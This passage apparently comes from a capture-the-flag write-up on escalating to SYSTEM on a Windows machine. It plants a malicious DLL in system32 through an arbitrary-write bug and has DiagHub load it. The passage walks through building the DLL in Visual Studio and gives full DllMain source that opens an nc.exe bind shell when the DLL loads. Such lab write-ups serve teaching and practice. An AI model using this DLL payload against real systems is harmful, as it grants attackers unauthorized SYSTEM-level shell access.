 Given that, I can use this same route to SYSTEM. Both of the arbitrary write exploits above are patched, but I have UserLogger for the write to SYSTEM32. So I’ll get my malicious dll to `\windows\system32\0xdf.log`, and then invoke DiagHub to load it.

#### Set Up

For Windows development, I’ll fire up a Windows VM with Visual Studio installed. It can take a while to get installed, but it’s worth it over time. Especially as the current trends in Windows tools is moving away from PowerShell and towards C#, having a place to modify and compile code for Windows is very helpful.

Since they are all VMs, I have a folder on my host disk that I share into both VMs use to pass files back and forth.

#### dll

I showed this process in my post on [COR Profilers Exploitation](/2019/03/15/htb-ethereal-cor.html#build-one). I’ve also posted an updated [dll project on my GitLab](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll) which has a few improvements like taking the host and port to connect back to as environment variables. For this case, as outbound connections are not allowed, I’ll have my payload just listen with `nc.exe` as I did for the previous shell as hacker.

First I’ll create my payload. I’ll open Visual Studio, and go to File > New > Project. On the left I’ll select Installed > Visual C++ > Windows Desktop. Then on the right, I’ll select DLL. I’ll give it a name, and hit OK:

![1551751673669](https://0xdfimages.gitlab.io/img/1551751673669.png)

This creates the project, and if I expand the Source Files folder on the right, I’ll see three .cpp files. I’ll open up `dllmain.cpp`, and add two lines. First I’ll add `#include <stdlib.h>`, which gives me access to the `system` function. The, under the case for `DLL_PROCESS_ATTACH`, I’ll add the a call to start another `nc` listener. `DLL_PROCESS_ATTACH` is the case when a process loads the DLL, so I can have my shell running on dll load.

```

// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe -lvp 4445");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
